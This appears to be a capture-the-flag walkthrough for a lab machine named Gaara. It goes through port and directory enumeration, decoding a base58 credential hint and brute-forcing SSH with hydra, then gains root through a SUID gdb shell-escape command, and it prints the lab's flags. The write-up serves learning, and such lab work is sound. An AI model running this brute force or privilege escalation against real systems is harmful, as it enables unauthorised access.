

# SunsetNoontide

- [Discovery](#discovery)
- [Foothold](#foothold)
- [Privilege Escalation](#privilege-escalation)

## Discovery

1) We run `nmap` to discover open TCP ports on the target

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -p- -T4 gaara

...

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

2) We run `nmap` again to determine additional information about running services including service versions


```
┌──(kali㉿kali)-[~]
└─$ nmap -v -p 22,80 -T4 -A gaara

...

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Okay great...

3) We'll enumerate paths in the webserver with `gobuster` and while that runs we'll play with the webserver manually in the browser...

```
gobuster dir -u http://gaara/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


The root path on the webserver just serves a static image. Gobuster hasn't found a single path yet still after about 2 minutes and 20% through the wordlist.

I'm starting to think there is something in the image we have to find...

4) I download the file and run it through Imagemagick, as well as check the header.

<details>

<summary>Image metadata details (from `identify -verbose gaara.jpg`)</summary>

```
┌──(kali㉿kali)-[~/Downloads]
└─$ identify -verbose gaara.jpg    
Image:
  Filename: gaara.jpg
  Permissions: rw-r--r--
  Format: JPEG (Joint Photographic Experts Group JFIF format)
  Mime type: image/jpeg
  Class: DirectClass
  Geometry: 1024x768+0+0
  Resolution: 72x72
  Print size: 14.2222x10.6667
  Units: PixelsPerInch
  Colorspace: sRGB
  Type: TrueColor
  Base type: Undefined
  Endianness: Undefined
  Depth: 8-bit
  Channel depth:
    red: 8-bit
    green: 8-bit
    blue: 8-bit
  Channel statistics:
    Pixels: 786432
    Red:
      min: 0  (0)
      max: 255 (1)
      mean: 218.756 (0.857867)
      standard deviation: 48.6556 (0.190806)
      kurtosis: 3.7422
      skewness: -2.02393
      entropy: 0.80025
    Green:
      min: 0  (0)
      max: 255 (1)
      mean: 177.859 (0.697486)
      standard deviation: 61.0336 (0.239347)
      kurtosis: 0.187067
      skewness: -1.20217
      entropy: 0.895336
    Blue:
      min: 0  (0)
      max: 255 (1)
      mean: 136.109 (0.533761)
      standard deviation: 56.332 (0.22091)
      kurtosis: -0.843824
      skewness: -0.455576
      entropy: 0.942183
  Image statistics:
    Overall:
      min: 0  (0)
      max: 255 (1)
      mean: 177.575 (0.696371)
      standard deviation: 55.3404 (0.217021)
      kurtosis: -0.366268
      skewness: -0.835003
      entropy: 0.879256
  Rendering intent: Perceptual
  Gamma: 0.454545
  Chromaticity:
    red primary: (0.64,0.33,0.03)
    green primary: (0.3,0.6,0.1)
    blue primary: (0.15,0.06,0.79)
    white point: (0.3127,0.329,0.3583)
  Background color: white
  Border color: srgb(223,223,223)
  Matte color: grey74
  Transparent color: black
  Interlace: None
  Intensity: Undefined
  Compose: Over
  Page geometry: 1024x768+0+0
  Dispose: Undefined
  Iterations: 0
  Compression: JPEG
  Quality: 91
  Orientation: TopLeft
  Profiles:
    Profile-8bim: 9084 bytes
    Profile-exif: 7487 bytes
    Profile-iptc: 7 bytes
      unknown[2,0]: 
    Profile-xmp: 14924 bytes
  Properties:
    date:create: 2024-03-03T18:57:22+00:00
    date:modify: 2024-03-03T18:57:22+00:00
    date:timestamp: 2024-03-03T18:58:55+00:00
    dc:format: image/jpeg
    exif:ColorSpace: 65535
    exif:DateTime: 2008:11:28 19:51:36
    exif:ExifOffset: 164
    exif:PixelXDimension: 1024
    exif:PixelYDimension: 768
    exif:Software: Adobe Photoshop CS2 Windows
    exif:thumbnail:Compression: 6
    exif:thumbnail:JPEGInterchangeFormat: 302
    exif:thumbnail:JPEGInterchangeFormatLength: 7179
    exif:thumbnail:ResolutionUnit: 2
    exif:thumbnail:XResolution: 72/1
    exif:thumbnail:YResolution: 72/1
    jpeg:colorspace: 2
    jpeg:sampling-factor: 1x1,1x1,1x1
    photoshop:ColorMode: 3
    signature: 116ebcdf1dfa15d0990e972d944b674603c310f54f1f5bd16eae818381c137cb
    tiff:NativeDigest: 256,257,258,259,262,274,277,284,530,531,282,283,296,301,318,319,529,532,306,270,271,272,305,315,33432;5AE74CEC12C01027B703F4EAEFCC620E
    tiff:XResolution: 720000/10000
    tiff:YResolution: 720000/10000
    xap:CreateDate: 2008-11-28T19:51:36+07:00
    xap:CreatorTool: Adobe Photoshop CS2 Windows
    xap:MetadataDate: 2008-11-28T19:51:36+07:00
    xap:ModifyDate: 2008-11-28T19:51:36+07:00
    xapMM:DerivedFrom: uuid:90FBC4A347BDDD11A729A9C88935196E
    xapMM:DocumentID: uuid:2020E0444BBDDD11A729A9C88935196E
    xapMM:InstanceID: uuid:2120E0444BBDDD11A729A9C88935196E
    xmp:ColorSpace: -1
    xmp:NativeDigest: 36864,40960,40961,37121,37122,40962,40963,37510,40964,36867,36868,33434,33437,34850,34852,34855,34856,37377,37378,37379,37380,37381,37382,37383,37384,37385,37386,37396,41483,41484,41486,41487,41488,41492,41493,41495,41728,41729,41730,41985,41986,41987,41988,41989,41990,41991,41992,41993,41994,41995,41996,42016,0,2,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,20,22,23,24,25,26,27,28,30;C350426F8EFA697791B8331A81A73525
    xmp:PixelXDimension: 1024
    xmp:PixelYDimension: 768
  Artifacts:
    filename: gaara.jpg
    verbose: true
  Tainted: False
  Filesize: 127985B
  Number pixels: 786432
  Pixels per second: 106.835MB
  User time: 0.010u
  Elapsed time: 0:01.007
  Version: ImageMagick 6.9.12-98 Q16 aarch64 18038 https://legacy.imagemagick.org
```

</details>

<details>

<summary>Image header with `jhead gaara.png`</summary>

```
┌──(kali㉿kali)-[~/Downloads]
└─$ jhead gaara.jpg            
File name    : gaara.jpg
File size    : 127985 bytes
File date    : 2024:03:03 10:57:22
Date/Time    : 2008:11:28 19:51:36
Resolution   : 1024 x 768
JPEG Quality : 83
======= IPTC data: =======
Record vers.  : 2
```

</details>

<details>

<summary>Raw file bytes with `head gaara.png`</summary>

```
──(kali㉿kali)-[~/Downloads]
└─$ head gaara.jpg 
����JFIFHH��AExifMM�b(1r2��i��
��'
��'Adobe Photoshop CS2 Windows2008:11:28 19:51:36������
                                                       H����JFIFHH��
                                                                    Adobe_CM��Adobed����
```

</details>

Nothing noteworthy in the image.

5) Maybe I overthought it - maybe I can try POSTing an executable and get it to give me a reverse shell...

That probably won't work. POSTs return 200 but don't do anything.

At this point I am hoping gobuster does find something!

** steps away for a few while `gobuster` completes **

7) Very sneaky... nearly the last word on the wordlist but we got there after ~20 minutes

```
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir -u http://gaara/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://gaara/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 270]
/Cryoserver           (Status: 200) [Size: 327]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

> Sigh... you can increase the number of threads with `-t`...

8) cURLing the found path we get A LOT of blank space, and some text that looks like subpaths:


```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://gaara/Cryoserver  

...

/Temari
/Kazekage
/iamGaara
```

9) Looking at those files in the browser, they are just large blobs of text of Naruto lore. After sifting through we find one of the texts (the one at `/iamGaara` contains the following encoded text: `f1MgN9mTf9SNbzRygcU`



10) We decode the text and find that it is `base58` decoded

```
┌──(kali㉿kali)-[~/dump/Credentials-Scanner]
└─$ echo f1MgN9mTf9SNbzRygcU | base64 -d
S 7ٓԍo4r��base64: invalid input
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/dump/Credentials-Scanner]
└─$ echo f1MgN9mTf9SNbzRygcU | base32 -d
base32: invalid input
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/dump/Credentials-Scanner]
└─$ echo f1MgN9mTf9SNbzRygcU | base58 -d
gaara:ismyname                                                                                                                                                                                           
```

11) I tried further enumerating the 3 paths we found with `gobuster`

```
┌──(kali㉿kali)-[~/dump/Credentials-Scanner]
└─$ for path in '/Temari' '/Kazekage' '/iamGaara'; do /usr/bin/gobuster dir -u http://gaara/$path -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 120; done

... (results not shown)
```

Gobuster found no results.

12) I try the username:password combination against the ssh server:

```
┌──(kali㉿kali)-[~]
└─$ ssh gaara@gaara  
The authenticity of host 'gaara (192.168.234.142)' can't be established.
ED25519 key fingerprint is SHA256:XpX1VX2RtX8OaktJHdq89ZkpLlYvr88cebZ0tPZMI0I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'gaara' (ED25519) to the list of known hosts.
gaara@gaara's password: 
Permission denied, please try again.
```

Did not work... I try a few more passwords e.g. "admin", "root", "password".

13) I try brute forcing the ssh server with user `gaara`, using hydra:

```
┌──(kali㉿kali)-[~]
└─$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://gaara -t 32
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-03 13:20:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 32 tasks per 1 server, overall 32 tasks, 14344399 login tries (l:1/p:14344399), ~448263 tries per task
[DATA] attacking ssh://gaara:22/
[22][ssh] host: gaara   login: gaara   password: iloveyou2
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 7 to do in 00:01h, 20 active
```

That worked! We got `gaara:iloveyou2`

14) We try our newly found credentials against the ssh server and look for our access flag:

```
┌──(kali㉿kali)-[~]
└─$ ssh gaara@gaara                                     
gaara@gaara's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gaara@Gaara:~$ ls -la /home/gaara | grep -e proof -e flag -e txt
-rw-r--r-- 1 gaara gaara   32 Apr 27  2021 flag.txt
-rw-r--r-- 1 gaara gaara   33 Mar  3 13:48 local.txt
gaara@Gaara:~$ cat /home/gaara/flag.txt
Your flag is in another file...
gaara@Gaara:~$ cat /home/gaara/local.txt
c1883eaee85970068d449a8127eeebf1
```

## Privilege Escalation

Nothing seems to resolve from the box... so we can't easily use LinPEAS...

15) I try a bunch of things looking for a PE vector.

- No cronjobs as root (as defined in `/etc/crontab`)
- No to hashes to crack in /etc/passwd
- Looking for odd binaries with SUID:

```
gaara@Gaara:~$ ls -la /usr/bin | grep rws
-rwsr-xr-x  1 root root      54096 Jul 27  2018 chfn
-rwsr-xr-x  1 root root      44528 Jul 27  2018 chsh
-rwsr-xr-x  1 root root      34896 Apr 22  2020 fusermount
-rwsr-sr-x  1 root root    8008480 Oct 14  2019 gdb
-rwsr-sr-x  1 root root    7570720 Dec 24  2018 gimp-2.10
-rwsr-xr-x  1 root root      84016 Jul 27  2018 gpasswd
-rwsr-xr-x  1 root root      51280 Jan 10  2019 mount
-rwsr-xr-x  1 root root      44440 Jul 27  2018 newgrp
-rwsr-xr-x  1 root root      63736 Jul 27  2018 passwd
-rwsr-xr-x  1 root root      63568 Jan 10  2019 su
-rwsr-xr-x  1 root root     157192 Feb  2  2020 sudo
-rwsr-xr-x  1 root root      34888 Jan 10  2019 umount
```

I notice `gdb` and `gimp-2.10`, I'm betting we can start a shell from `gdb`...

16) After some research on how to run a command with `gdb` in-line (and of course, trial and error), I manage to get start a shell as root from `gdb`:

> The python keyword here is not invoking the Python interpreter directly, as you would from a command line with python or python -c. Instead, it's part of GDB's syntax to execute Python scripts within the GDB process. GDB has built-in support for Python scripting, allowing users to extend GDB's capabilities or automate certain tasks using Python.

> We ** have ** to use the gdb's built-in python capabilities. This is because securely designed setuid programs, including GDB when it's setuid root, often explicitly drop their elevated privileges before executing external commands or scripts. This is a security measure to prevent exactly this type of privilege escalation. This means that even though GDB itself might be running with root privileges, it intentionally lowers the privileges of the processes it spawns to match the original user's privileges, not root's.

```
gaara@Gaara:/$ gdb -ex 'python import os; os.execl("/bin/bash", "bash", "-p")'
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
bash-5.0# whoami
root
bash-5.0# ls -la /root | grep -e proof -e txt
-rw-------  1 root root   33 Mar  3 13:48 proof.txt
-rw-r--r--  1 root root   32 Apr 27  2021 root.txt
bash-5.0# cat root/proof.txt
0236ccbe1df5713594d11d4a1539ddb7
```

Success!


                            